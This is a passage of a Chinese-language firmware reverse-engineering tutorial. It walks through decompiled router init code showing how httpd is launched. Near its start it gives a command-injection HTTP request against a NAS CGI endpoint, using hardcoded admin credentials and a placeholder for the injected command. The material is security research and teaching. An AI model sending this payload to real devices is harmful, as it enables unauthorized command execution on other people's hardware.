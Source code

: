 可以看到代码中包含了一个管理员凭据(用户名/密码)，还是用了危险函数，结合硬编码可以构造命令注入：

```http
GET /cgi-bin/nas_sharing.cgi?dbg=1&cmd=51&user=mydlinkBRionyg&passwd=YWJjMT
IzNDVjYmE&start=1&count=1;{your cmd};
```

这种漏洞比较直观



### httpd的启动

+ 在/etc/init*相关初始化脚本中启动
+ 在init进程中启动

以在某路由器中init程序为例。在sbin中存在很多指向cr的链接文件，其中init启动了我们较为关注的服务：

来逆向以下rc程序：

```c
  pcVar1 = strrchr(*param_2,0x2f);
  __haystack = pcVar1 + 1;
  if (pcVar1 == (char *)0x0) {
    __haystack = *param_2;
  }
  pcVar1 = strstr(__haystack,"init");
  if (pcVar1 != (char *)0x0) {
    INIT();				//通过链接文件的名字启动对应函数
    return 0;
  }
  pcVar1 = (char *)nvram_get("time_zone");
  if (pcVar1 == (char *)0x0) {
    pcVar1 = "";
  }
```

继续看INIT():

```C
void INIT(void)

{
  char *__nptr;
  undefined *local_c;
  
  local_c = &_gp;
  setup_1();
  signal_init();
  signal(1,(__sighandler_t)&LAB_00406314);
  signal(0x10,(__sighandler_t)&LAB_00406314);
  signal(0x11,(__sighandler_t)&LAB_00406314);
  signal(2,(__sighandler_t)&LAB_00406314);
  signal(0xe,(__sighandler_t)&LAB_00406314);
  sigemptyset((sigset_t *)&stack0xffffff28);
  if (DAT_100000c4 == 0) {
    run_shell(1,0);
  }
  __nptr = (char *)nvram_get("boardflags");		//<====nvram系列函数
  if (__nptr == (char *)0x0) {
    __nptr = "";
  }
    .....
}

/*setup_1():创建如下文件以及初始化控制台*/
...
  mount("proc","/proc","proc",0xc0ed0000,(void *)0x0);
  mount("ramfs","/tmp","ramfs",0xc0ed0000,(void *)0x0);
```